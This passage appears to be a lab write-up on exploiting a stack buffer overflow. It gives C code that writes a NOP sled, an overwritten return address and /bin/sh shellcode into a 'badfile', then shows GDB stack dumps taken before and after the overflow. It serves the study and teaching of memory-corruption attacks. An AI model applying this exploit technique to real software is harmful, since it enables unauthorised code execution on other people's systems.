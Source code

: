 ```c

    // Initialize buffer with 0x90 (NOP instruction)
    memset(&buffer, 0x90, 517);

    printf("len shellcode: %zu\n", sizeof(shellcode));
    printf("buffer: %p\n", (void *)buffer);

    // Put the return address at the beginning of the NOP instructions, but after the return address.
    *((long *)(buffer + 0x18)) = 0xbfffe92c;

    memcpy(buffer + 517 - sizeof(shellcode), shellcode, sizeof(shellcode));

    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
}
```

Notice that the return address is located at an offset of `0x18` from the beginning of the buffer. We can can see this from observing the offset between `0xbfffe75c` and `0xbfffe744` in the stack frome of the `bof()` function.

---

If the buffer overflow is performed inside of a GDB session, it is possible to dump the contents of the stack before and after overflowing the buffer.

```shell
$ gdb stack1_dbg
(gdb) break bof
(gdb) run badfile
(gdb) dump binary memory original.stack $esp $esp + 517 + 20
(gdb) next
(gdb) dump binary memory corrupted.stack $esp $esp + 517 + 20
```

Then the two stack hexdumps can be viewed side-by-side as follows (with most of the `NOP` instructions snipped).

```shell
$ pr -m -t <(xxd -o 0xbfffe730 -c 4 -g 4 -e original.stack | tac) <(xxd -o 0xbfffe730 -c 4 -g 4 -e corrupted.stack | tac)
bfffe948:       90  .               bfffe948:       80        .
bfffe944: 90909090  ....            bfffe944: cd0bb099        ....
bfffe940: 90909090  ....            bfffe940: e1895350        PS..
bfffe93c: 90909090  ....            bfffe93c: e3896e69        in..
bfffe938: 90909090  ....            bfffe938: 622f6868        hh/b
bfffe934: 90909090  ....            bfffe934: 732f2f68        h//s
bfffe930: 90909090  ....            bfffe930: 50c03190        .1.P
bfffe92c: 90909090  ....            bfffe92c: 90909090        ....
-snip-
bfffe794: 90909090  ....            bfffe794: 90909090        ....
bfffe790: 90bfffe9  ....            bfffe790: 90909090        ....
bfffe78c: 2c909090  ...,            bfffe78c: 90909090        ....
bfffe788: 90909090  ....            bfffe788: 90909090        ....
-snip-
bfffe778: 90909090  ....            bfffe778: 90909090        ....
bfffe774: 90e1c900  ....            bfffe774: 90909090        ....
bfffe770: 00000000  ....            bfffe770: 90909090        ....
bfffe76c: 0804b008  ....            bfffe76c: 90909090        ....
bfffe768: 00000205  ....            bfffe768: 90909090        ....
bfffe764: 00000001  ....            bfffe764: 90909090        ....
bfffe760: bfffe777  w...            bfffe760: 90909090        ....
bfffe75c: 080484ff  ....            bfffe75c: bfffe92c        ,...
bfffe758: bfffe988  ....            bfffe758: 90909090        ....
```